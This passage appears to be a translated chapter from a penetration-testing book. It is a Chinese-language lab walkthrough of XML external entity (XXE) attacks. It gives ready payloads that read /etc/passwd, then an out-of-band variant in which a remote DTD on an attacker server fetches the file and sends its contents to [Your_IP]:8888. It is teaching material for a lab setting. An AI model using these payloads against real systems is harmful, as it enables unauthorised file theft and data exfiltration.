 **XXE 实验——阅读文件：**

* 拦截 [你的 VM 的 IP]/xxe.php 的流量包并点击 `Hack of XML`
* 将截获的流量包发送到 Repeater
* 将“data”的 POST 参数修改为以下内容：
    * <?xml version ="1.0"?> <!DOCTYPE thp [<!ELEMENT thp ANY> <!ENTITY book SYSTEM "file:/// etc/passwd">]><thp>Hack The %26book%3B </thp>
* 请注意，`%26` 等同于`&`，`%3B`等同于 `;`。我们需要对&符号和分号字符进行百分比编码。
* 发送流量包，我们现在应该能够读取 `/etc/passwd`

 ![](../images/chapter_3/3-44.png)

### 高级 XXE——XXE-OOB 
在之前的攻击中，我们能够在`<thp>`标签中获得返回的响应。那么如果我们看不到响应或遇到字符或文件限制怎么办？我们怎样使用带外数据协议（OOB）来发送我们的数据？我们可以提供远程文档类型定义（DTD）文件来执行 OOB-XXE，而不是在请求 payload 中定义我们的攻击。DTD 是结构良好的 XML 文件，用于定义 XML 文档的结构和法律元素及属性。为了简单起见，我们的 DTD 将包含我们所有的攻击或 exfil payload，这将帮助我们解决许多字符的限制。在我们的实验示例中，我们将使有 XXE 漏洞的服务器请求一个托管在远程服务器上的 DTD。

新的 XXE 攻击将分四个阶段进行：
1. 使用篡改后的 XXE XML 攻击
2. 对于存在漏洞的 XML 解析器，它会从攻击者服务器抓取一个 DTD 文件
3. 该 DTD 文件包含读取 /etc/passwd 文件的代码
4. 该 DTD文件也包含用于隐秘传输 /etc/passwd 内容的代码（可能是经过编码的）

设置我们的攻击者机器和 XXE-OOB payload：
* 我们将指定一个外部 DTD 文件，而不是原始文件读取
```xml
<!ENTITY % dtd SYSTEM "http://[Your_IP]/payload.dtd"> %dtd;
```

* 新的“数据”POST payload 将如下所示（记得更改 [Your_IP]）：
```xml
<?xml version="1.0"?><!DOCTYPE thp [<!ELEMENT thp ANY ><!ENTITY % dtd SYSTEM "http://[Your_IP]/payload.dtd"> %dtd;]><thp><error>%26send%3B</error></thp>
```

* 我们需要通过创建名为 payload.dtd 的文件在攻击者服务器上托管此 payload  
    * gedit /var/www/html/payload.dtd
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://[Your_IP]:8888/collect=%file;'>">
%all;
```
